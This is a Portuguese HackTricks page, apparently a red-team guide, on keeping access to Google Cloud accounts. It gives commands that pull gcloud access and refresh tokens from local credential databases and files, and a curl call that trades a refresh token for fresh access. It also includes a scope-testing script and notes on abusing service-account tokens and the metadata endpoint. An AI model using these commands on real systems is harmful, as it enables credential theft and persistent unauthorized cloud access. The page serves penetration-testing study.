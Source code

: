 # GCP - Persistência de Token

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Tokens de Usuário Autenticado

Para obter o **token atual** de um usuário, você pode executar:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Verifique nesta página como **usar diretamente este token usando gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Para obter os detalhes para **gerar um novo token de acesso**, execute:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Também é possível encontrar tokens de atualização em **`$HOME/.config/gcloud/application_default_credentials.json`** e em **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Para obter um novo token de acesso atualizado com o **token de atualização**, ID do cliente e segredo do cliente, execute:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

A validade dos tokens de atualização pode ser gerenciada em **Admin** > **Security** > **Google Cloud session control**, e por padrão está definida para 16h, embora possa ser configurada para nunca expirar:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Fluxo de autenticação

O fluxo de autenticação ao usar algo como `gcloud auth login` abrirá um prompt no navegador e, após aceitar todos os escopos, o navegador enviará uma solicitação como esta para a porta http aberta pela ferramenta:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Então, o gcloud usará o estado e o código com um `client_id` (`32555940559.apps.googleusercontent.com`) e **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) hardcoded para obter os **dados finais do token de atualização**.

{% hint style="danger" %}
Observe que a comunicação com localhost é em HTTP, então é possível interceptar os dados para obter um token de atualização, no entanto, esses dados são válidos apenas 1 vez, então isso seria inútil, é mais fácil apenas ler o token de atualização do arquivo.
{% endhint %}

### Escopos OAuth

Você pode encontrar todos os escopos do Google em [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ou obtê-los executando:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

É possível ver quais escopos o aplicativo que **`gcloud`** usa para autenticar pode suportar com este script:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Após a execução, foi verificado que este aplicativo suporta estes escopos:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
é interessante ver como este aplicativo suporta o **`drive`** scope, o que poderia permitir que um usuário escalasse do GCP para o Workspace se um atacante conseguir forçar o usuário a gerar um token com esse escopo.

**Verifique como** [**abusar disso aqui**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Contas de Serviço

Assim como com usuários autenticados, se você conseguir **comprometer o arquivo de chave privada** de uma conta de serviço, você poderá **acessá-la geralmente pelo tempo que quiser**.\
No entanto, se você roubar o **token OAuth** de uma conta de serviço, isso pode ser ainda mais interessante, porque, mesmo que por padrão esses tokens sejam úteis apenas por uma hora, se a **vítima excluir a chave da API privada, o token OAuth ainda será válido até expirar**.

### Metadados

Obviamente, enquanto você estiver dentro de uma máquina rodando no ambiente GCP, você poderá **acessar a conta de serviço anexada a essa máquina contatando o endpoint de metadados** (note que os tokens OAuth que você pode acessar neste endpoint geralmente são restritos por escopos).

### Remediações

Algumas remediações para essas técnicas são explicadas em [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### Referências

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
